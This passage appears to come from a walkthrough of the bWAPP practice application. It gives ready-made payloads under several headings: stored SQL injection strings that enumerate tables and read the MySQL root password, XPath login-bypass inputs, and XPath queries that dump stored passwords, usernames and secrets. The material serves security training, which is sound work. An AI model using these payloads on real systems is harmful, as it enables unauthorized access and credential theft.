 ### 💀  SQL Injection - Stored (Blog) 💀

Be sure to add a space after the -- for this one, otherwise the injection will not work

```
asdf',(SELECT database()  ))--
```

To begin enumerating tables:

```
asdf',(SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'bWAPP' LIMIT 0,1  ))--
asdf',(SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'bWAPP' LIMIT 1,1  ))--
```

```
asdf',(select password from mysql.user where user='root' ))--
```

### 💀  XML/XPath Injection (Login Form) 💀
using burp

to see the magic just change the id ;)
```
login=bee
password=' or id='2
```
or
```
login=bee&password=password%3d'%20or%20id%3d'2&form=submit
```

### 💀  XML/XPath Injection (Search) 💀


show passwords
```
genre=')]/password | a[contains(a,'
```
show usernames
```
genre=')]/login | a[contains(a,'
```
show secrets
```
genre=%27)]/secret%20|%20a[contains(b,%27
```
show genre field
```
?genre=%27)]/genre%20|%20a[contains(a,%27
```
```
genre=') or not(contains(genre, 'xxx') and '1'='2
```

# A2 - Broken Authentication
